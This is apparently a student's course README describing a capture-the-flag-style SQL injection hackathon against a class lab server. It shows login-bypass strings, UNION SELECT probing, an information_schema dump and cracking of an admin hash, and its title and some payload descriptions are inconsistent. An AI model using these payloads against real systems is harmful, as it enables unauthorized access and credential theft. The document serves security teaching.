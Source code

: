 # WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

### Name: Sruthi Sridhar Bopparthi
### Email: bopparsr@mail.uc.edu

![Sruthi's Headshot](Images/Sruthi_Pic.jpeg)

## Repository Information
### Repository's URL: [https://github.com/SruthiAelay/waph-bopparsr.git](https://github.com/SruthiAelay/waph-bopparsr.git)
### This is a private repository which is used to store all the codes related to course Topics in Computer Systems. The structure of this repository is as mentioned below.

# Hackathon 1 - Cross-site Scripting Attacks and Defences

## Lab's overview
This hackathon is designed to provide participants with practical insights into SQL Injection Attacks (SQLi), a prevalent and critical security vulnerability in web applications. The learning experience is divided into three levels, each offering a progression of challenges and knowledge acquisition. Participants, through hands-on activities, actively identify and exploit vulnerabilities within a virtual web application environment. A key focus is on bypassing login checks, which allows us to understand how SQL injections can manipulate authentication processes. As we advance, the ultimate goal is to gain unauthorized access to the system, mirroring real-world scenarios where SQLi attacks can lead to unauthorized data retrieval. 

Link to Hackathon2 code : [https://github.com/SruthiAelay/waph-bopparsr/tree/main/Hackathon/Hacakthon2]([https://github.com/SruthiAelay/waph-bopparsr/tree/main/Hackathon/Hacakthon2])

## Level 0

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level0](http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level0)

In Level 0, I employed single quotes after entering my username to effectively terminate the input within the SQL statement. Following this, I inserted 1=1 to ensure the SQL statement always evaluates to TRUE. Lastly, I appended ```;``` and ```#``` to signify the conclusion of the SQL statement and to comment out the remaining part of the statement.

SQL Injection Code:
```
bopparsr' OR 1=1; #
```

![Level 0 ](Images/Level0.png)

## Level 1

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level1](http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level1)

At Level 1, I utilized double quotes to properly terminate the input within the SQL statement. Additionally, I included the same OR condition from Level 0 to ensure the statement evaluates to TRUE. I concluded by adding a semicolon (;) followed by a hash symbol (#) to signify the termination of the SQL statement and to comment out the remaining part of the statement. Moreover, I introduced an additional condition, "LIMIT 1", to ensure that the query satisfies the condition(if there is any) of returning a single record.

SQL Injection Code:
```
bopparsr' OR 1=1 LIMIT 1; #
```

Possible Code:
```
$sql = "SELECT * FROM users WHERE username = "$username" AND password=md5("$password")";
$result = $mysqli -> query($sql)
if ($result -> num_rows ==1):
    return TRUE;
else:
    return FALSE;
```

![Level 1 ](Images/Level1.png)

## Level 2

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level2](http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level2)

### a) Detecting SQLi Vulnerabilities

While checking for vulnerabilities, I looked at the login pages and tried different things on the products.php page. I saw that the response wasn't always the same, especially when using an ID like 'bopparsr,' which caused a big error. When I put data in double quotes, the response was empty. These inconsistencies suggest a problem with how the website handles input, making it susceptible to SQL injection in that specific part. The screenshot below shows my tests and the different results based on the input I used.

SQL Injection Code :
```
id=boppars
```

![Level 2 Vulnerabilities ](Images/Level2.1.png)
    
### b) Exploiting SQLi to Access Data

1) Identify the Number of Columns

- Craft SQL injection queries with UNION SELECT to infer the number of columns in the target database table.
- Adjust the queries iteratively, trying different numbers of columns until a successful UNION SELECT statement is found.
- Initially tried with 1 column, when error occurred.

SQL Injection Code:
```
id = 1 union select 1
```

![Level 2 Error Occured ](Images/Level2UnionError.png)

- Further, I tried with 3 columns, when I successfully found out that there are three columns.

```
id - 1 union select 3,'bopparsr',01
```
![Level 2 Number of Columns ](Images/Level2Columns.png)


2) Display Your Information

- SQL injection query that includes a UNION SELECT statement to display my information.
- Injected the crafted query into input fields where SQL injection is possible, such as URL.

```
id = 3 union select "bopparsr',"Sruthi Sridhar Bopparthi","WAPH"
```

![Level 2 Display my information ](Images/Level2Info.png)


3) Display the Database Schema

- Used advanced SQL injection techniques to exploit vulnerabilities and gain unauthorized access.
- Formulating SQL queries that fetch the entire database schema, including tables and columns.

```
id: 1 UNION SELECT "bopparsr",table_name,column_name FROM information_schema.columns
```

![Level 2 Database Schema ](Images/Level2Schema.png)


4) Display Login Credentials

- Found out the table name which contains login credentials.
- Identified respective columns
  
![Level 2 Login Credentials](Images/Level2Schema.png)


- Decrypted hashed password of admin by using - https://hashes.com/en/decrypt/hash

![Level 2 Login Password Decrypt ](Images/Level2Decrypt.png)


### c) Login with Stolen Credentials

- Take the obtained login credentials and attempt to log in to the system.
- Successfully logging in demonstrates the effectiveness of SQL injection in achieving unauthorized access.

![Level 2 Login with username and password](Images/Level2Login.png)

